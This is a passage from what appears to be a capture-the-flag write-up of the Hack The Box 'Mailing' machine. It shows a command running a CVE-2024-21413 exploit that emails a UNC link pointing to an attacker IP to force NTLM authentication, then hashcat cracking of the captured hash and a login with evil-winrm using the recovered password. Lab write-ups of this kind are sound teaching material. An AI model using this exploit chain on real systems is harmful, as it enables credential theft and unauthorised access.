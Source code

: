 Then the hash came in after I restarted my machine and started up responder, but before I had run the exploit. So I'm not exactly sure which command triggered the NTLM authentication, but it was likely something like this:
`python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender pop@mailing.htb --recipient maya@mailing.htb --url "\\10.10.14.3\share\sploit" --subject "Check this out ASAP"`. 

Great. We get the NTLMv2 hash and attempt to crack it was hashcat (`hashcat -m 5600...`. 

![Mailing4.png](/assets/images/Mailing/Mailing4.png){: .center-aligned width="600px"}

And it cracks as `m4y4ngs4ri`. Now we have the credentials `maya`:`m4y4ngs4ri`, and we can log in with evil-winrm. 

![Mailing5.png](/assets/images/Mailing/Mailing5.png){: .center-aligned width="600px"}
